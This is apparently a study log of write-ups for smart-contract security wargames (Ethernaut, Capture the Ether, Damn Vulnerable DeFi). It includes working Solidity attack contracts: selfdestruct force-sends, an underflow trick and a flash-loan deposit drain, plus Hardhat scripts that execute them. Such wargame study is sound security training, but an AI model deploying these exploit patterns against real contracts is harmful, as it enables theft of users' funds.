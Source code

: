 
## Day 10-12 flawed or mixed accounting

### Ethernaut #7 Force

There is an empty contract called Force, and the objective of this exercise is to make the contract have a non-zero balance.  We cannot send to the contract directly to the contract because it has no receive() or fallback methods.  We can however create a self-destructing contract to send the remaining ether.  

```Java
contract Attacker {
    function attack(address payable victimAdd) payable external {
        require(msg.value > 0, "need to send ETH for attack");
        selfdestruct(victimAdd);
    }
}
```

### Capture the Ether Retirement fund 

The given contract is meant to force someone to save for retirement.  What it does is lock up Ether for 10 years, and if any is withdrawn 10% will be sent to a beneficiary.  It is not explicitly stated what is the objective of this challenge.  I beleive it is to remove the ether without incuring a penalty.  

Let's look at the collectPenalty() method.  

```Java
    function collectPenalty() public {
        require(msg.sender == beneficiary);

        uint256 withdrawn = startBalance - address(this).balance;

        // an early withdrawal occurred
        require(withdrawn > 0);

        // penalty is what's left
        msg.sender.transfer(address(this).balance);
    }
```

This can only called by the beneficiary - fine, and it will revert if withdrawn is zero.  So calling this right after the contract is deployed will revert.  One thing to note is that this is written for Solidity 0.4.21, which has no overflow/underflow checks.  We can send some ether to the contract and the subtraction will cause an underflow which will make withdrawn nonzero.  

A contract to do a selfdestruct() attack is given below, it is similar to that in the previous challenge but it was written for Solidity 0.4.21.  

```Java
contract Attacker {
    function attack(address victimAdd) payable external {
        require(msg.value > 0);
        selfdestruct(victimAdd);
    }
}
```


### Damn Vulnerable Defi #4 Side Entrance

This contract is a pool that allows anyone to deposit ETH and withdraw it at any point in time.  It has 1000 ETH deposited, and is offering free flash loans using the deposited ETH.  The objective is after starting with 1 ETH in balance to take all the ETH from the pool.  The contract was written in Solidity 0.8.0.  Some relevant parts of the Pool are shown below: 

```Java
    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
```

One possible way we can attack this is to take out a flash loan and then deposit the loaned amount back to the contract.  The ```deposit()``` function will cretid the sender with the full loan value, and ```flashLoad()``` will also be satisified because the balance of the contract will be the same.  

A contract was written to exploit this vunerability.  The contract is given below.  

```Java

contract SideEntranceAttack is IFlashLoanEtherReceiver {

    SideEntranceLenderPool pool;

    constructor(address _poolAddress){
        pool = SideEntranceLenderPool(_poolAddress);
    }

    // function to remove funds from contract
    function withdraw() external {
        // send funds to msg.sender
        (bool sent,) = payable(msg.sender).call{value:address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function attack() external {
        pool.flashLoan(1000 ether);
        pool.withdraw();
    }

    function execute() external payable {
        // call deposit() on the pool
        pool.deposit{value: msg.value}();
    }

    receive() external payable{
    }
}
```
The only other detail is that the contract needs a ```withdraw()``` method to send the stolen funds to the player.  

The Javascript to call this is given below: 

```Javascript

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        // get Attacking contract
        const AttackerFactory = await ethers.getContractFactory("SideEntranceAttack");
        const attackerContract = await AttackerFactory.connect(player).deploy(pool.address);

        // get a flash loan from the pool, this needs to be sent from an attacking contract.  
        await attackerContract.connect(player).attack();

        // widthdraw funds
        await attackerContract.connect(player).withdraw();
    });
```

### Damn Vulnerable Defi #1 Unstoppable

THis challenge is another flash loan vault. It offers free flash loans during a grace period.  The challenge is to make the vault stop offering flash loans.  The flash loan contract is quite large, however in the ```flashLoan()``` method there are a number of contiions which will cause the call to revert.  One of them is reverts with ```InvalidBalance()```.  The code for it is given below: 

```Java
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

We can send some of our 10 initial tokens to the vault to cause this to fail every time.  The code below does that in the test. 

```Javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        token.transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
    });
```